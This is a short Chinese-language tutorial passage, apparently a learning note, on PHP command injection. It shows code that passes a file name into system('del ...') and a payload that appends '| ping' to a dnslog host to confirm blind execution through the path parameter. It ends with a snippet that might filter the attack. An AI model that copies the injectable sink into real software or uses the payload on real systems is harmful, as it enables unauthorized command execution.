 和在cmd下使用一样的原理。

```php
switch($action){
    case 'del':
//        unlink($file);
        $cmd="del $file";
        system($cmd);
        echo $cmd;
        break;
```

#### dnslog回显

当不知道执行结果时，可以使用`?path=del 1.txt | ping http://www.dnslog.cn/`从这里面获取

例如，我删除了一个文件，但是不会立即反馈给我是否删除成功，此时就可以` | ping dnslog(get subdomain)`。

但是也有可能被以下代码过滤掉：

```php
if(is_file($path)){//判断是否是文件
    //获得文件名
    $file=basename($path);
    //获得路径
    $path=dirname($path);
}elseif(!is_dir($path)){//判断，不是目录
    echo '无效的文件文件路径参数';
}
```


